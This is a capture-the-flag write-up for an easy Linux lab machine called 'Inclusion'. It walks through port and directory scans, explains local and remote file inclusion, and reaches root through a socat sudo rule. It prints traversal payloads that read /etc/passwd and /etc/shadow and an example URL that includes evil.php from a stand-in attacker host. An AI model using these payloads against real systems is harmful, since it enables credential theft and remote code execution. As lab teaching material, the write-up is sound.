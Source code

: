 ```yaml
---
title: "Inclusion"
tags:
  - Easy
  - Linux
  - nmap
  - LFI
  - socat
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|    Easy    |  |  10.10.16.93  |  |

---

Let's start off by running a basic `nmap` scan on the target machine with standard scripts loaded and version enumeration enabled. 

```
sudo nmap -sC -sV -vv 10.10.16.93
```

**Results:**

![screenshot1](../assets/images/inclusion/screenshot1.png)

As we can see, there are two services running on the target machine: **SSH** and **HTTP**. For the HTTP server, we can see that the http-title is **'My blog'**.

Let's first check out the HTTP webserver. Navigating to the website in our web browser, we come to this webpage:

![screenshot2](../assets/images/inclusion/screenshot2.png)

Before conducting our happy-path enumeration, we can start a `gobuster` directory scan to see if we can obtain any hidden directories.

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

We make sure to include common extensions in our enumeration, such as **.php** and **.js**. We will also use Dirbuster's directory-list-2.3-medium.txt as the wordlist.

While the scan is going on, let's explore the website. First I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried some low-hanging fruit such as visiting **/robots.txt** but those did not result in anything of value.

When I typed something into the search bar on the top right of the webpage and pressed search, I was redirected back to the homepage. Since this CTF room is called 'Inclusion', will I have to carry out some form of **Local File Inclusion attack** using this search field?

At the bottom of the web page, there were three sections dedicated to different paragraphs of text. Looks like they taught us more about Local File Inclusion (LFI) and Remote File Inclusion (RFI) attacks! This will be useful as I currently have no idea what those attacks are. Clicking on the 'View Details' button below the sections brought me to pages with just text in them. I checked the source code for each of these dedicated pages but there was nothing of value.

Time to learn more about LFI and RFI attacks.

---

### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input **'module'** and the value to be the file **'contact.php'**. Of course, it would seem that contact.php is in the same directory as the calling file, and hence the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local **/etc/shadow** file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a .php script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded. The web server will then execute the script:

```
https://example.com/?module=../../../uploads/malicious.php
```

### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a url to another web server (controlled by the attacker) to execute malicious code that is hosted on that web server. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```

---

Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:

![screenshot3](../assets/images/inclusion/screenshot3.png)

Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practiced file inclusion, which means that I could attempt to mount an attack there!

![screenshot4](../assets/images/inclusion/screenshot4.png)

It seemed that the web server was taking in an input **'name'** and the filename that produced the wall of text shown on the page was called **'hacking'**.

I'll try to change **'hacking'** to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.

![screenshot5](../assets/images/inclusion/screenshot5.png)

The attack worked! The contents of the **/etc/passwd** file is displayed by the web server. Next, I'll try if I can read the **/etc/shadow** file. If I can do so, I'll be able to obtain the credentials of users on the machine, such as root.

![screenshot6](../assets/images/inclusion/screenshot6.png)

Sure enough, I could read the **/etc/shadow** file, which is great. From the file, I can see that there is a user account called **FalconFeast**. At first, I was going to use **John the Ripper** to crack the password of FalconFeast using the hashed password found in the /etc/shadow file. However, looking closer at the /etc/passwd file, I noticed a comment in the file:

![screenshot7](../assets/images/inclusion/screenshot7.png)

On the right, we can see the text **'falconfeast:rootpassword'** Could **'rootpassword'** be the password for falconfeast? To test this, I tried to ssh into falconfeast's account using the password:

![screenshot8](../assets/images/inclusion/screenshot8.png)

Nice, that was his password after all. 

With that, I was able to log into falconfeast's account and obtain **user.txt** from his **home** directory.

---

Since I'm already in the machine, I could try to escalate my privileges from the inside. Before using a privilege escalation automation script like [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I first did some manual enumeration first. 

First, I ran the command `sudo -l` to see what sudo privileges that falconfeast had.

![screenshot9](../assets/images/inclusion/screenshot9.png)

Looks like he can run `socat` as root! Next, I went to **GTFOBins** to see if there were any vulnerabilities that I could exploit with this binary.

After looking through GTFOBins, I found a method using `socat` to spawn a shell as root:

![screenshot10](../assets/images/inclusion/screenshot10.png)

After running the command above, I managed to spawn a shell as root:

![screenshot11](../assets/images/inclusion/screenshot11.png)

With that, I can easily navigate towards root's home directory and obtain **root.txt**.

